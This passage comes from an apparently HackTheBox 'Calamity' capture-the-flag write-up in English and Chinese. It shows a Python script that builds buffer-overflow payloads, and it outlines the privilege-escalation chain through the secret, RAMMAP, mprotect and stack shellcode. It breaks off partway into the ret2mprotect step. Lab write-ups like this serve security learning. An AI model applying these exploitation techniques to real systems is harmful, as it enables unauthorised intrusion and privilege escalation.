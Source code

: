 So that:

- eax = ebx + 0x68
- edx = [eax+0xc]

![allcalcregs](https://alicdn.kmahyyg.xyz/asset_files/htb7/calamity-8.webp)

The ebx should be `0x80002ff4`.

### Final script to build payload 1,2

```python
#!/usr/bin/env python3

import struct
import sys

args = len(sys.argv)
print(args)
with open('patchfile', 'wb') as tfile:
    if args == 1:
        tfile.write(b'ABCDEFGH')
        tfile.write(b'\xf8\x2f\x00\x80') #0x80002ff8
    if args == 2:
        tfile.write(struct.pack("<I", int(sys.argv[1], 16)))
        tfile.write(b'BBBB')
        tfile.write(struct.pack("<I", 0x80002FF4))
```

## SORT ALL THINGS OUT ABOVE!

1. 由于启用了 NX，所以 PIE 生效后 GOT 表必须有一个寄存器指向，以便间接访问。
2. 由于我们有源代码，所以可以知道全局变量表里的 hey 这个对应的 struct 的内存结构
3. 根据对 main 函数和 attempt_login 函数的反汇编，我们可以根据栈的 FILO 特性知道对应参数使用了哪些寄存器。
4. 对应各类寄存器，继续向上查找寄存器设定代码，获得寄存器之间的设定关系。根据缓冲区溢出的结果，确定字符串长度与对应寄存器的控制关系。
5. 利用程序可以动态加载用户文件的特性，构造对应 payload, 修改 BX 寄存器，达到读写特定变量的目的
6. 整体流程：构造 Payload -> 读取 Secret -> 将 Secret 输入到 hey.user -> 构造 Payload -> 验证通过，显示 RAMMAP -> 利用 mprotect 使栈内的代码可执行 -> shellcode 入栈 -> 提权完成。

## Ret2mprotect

Run the code we offered above, and after you see the RAMMAP. You were asked to offer another file here. Let's create a pattern in 100 chars with `pattern create 100 test100`, then offer it to the program, finally `pattern search` to get the data address in stack which overrided EIP, Here, it's 0xbffff5b0.

![rammap](https://alicdn.kmahyyg.xyz/asset_files/htb7/calamity-9.webp)
![offsetcheck](https://alicdn.kmahyyg.xyz/asset_files/htb7/calamity-10.webp)

According to the `disas main` and the man page of `mprotect`.

> int mprotect(void *addr, size_t len, int prot);

